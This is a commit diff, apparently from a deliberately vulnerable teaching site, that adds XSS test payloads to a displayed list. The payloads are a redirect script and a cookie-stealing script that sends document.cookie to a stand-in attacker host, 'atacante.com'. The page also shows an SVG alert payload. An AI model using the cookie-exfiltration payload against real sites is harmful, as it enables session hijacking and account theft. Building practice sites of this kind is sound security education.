

Before and after one commit to LuisT-ls/Aplicacao-Vulneravel, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 528-1334 px from the top of the page. Before the commit the page ends 1238 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Adição de mais um exemplo para teste de vulnerabilidades xss

```diff
--- a/index.html
+++ b/index.html
@@ -107,6 +107,19 @@
               <i class="fas fa-palette"></i>
               <code>&lt;svg onload="alert('SVG XSS!')"&gt;&lt;/svg&gt;</code>
             </li>
+            <li>
+              <i class="fas fa-share"></i>
+              <code
+                >&lt;script&gt;window.location.href =
+                'https://www.google.com';&lt;/script&gt;</code
+              >
+            </li>
+            <li>
+              <i class="fas fa-cookie-bite"></i>
+              <code
+                >&lt;script&gt;document.location='http://atacante.com/roubo?cookie='+document.cookie;&lt;/script&gt;</code
+              >
+            </li>
           </ul>
         </div>
         <p>
```
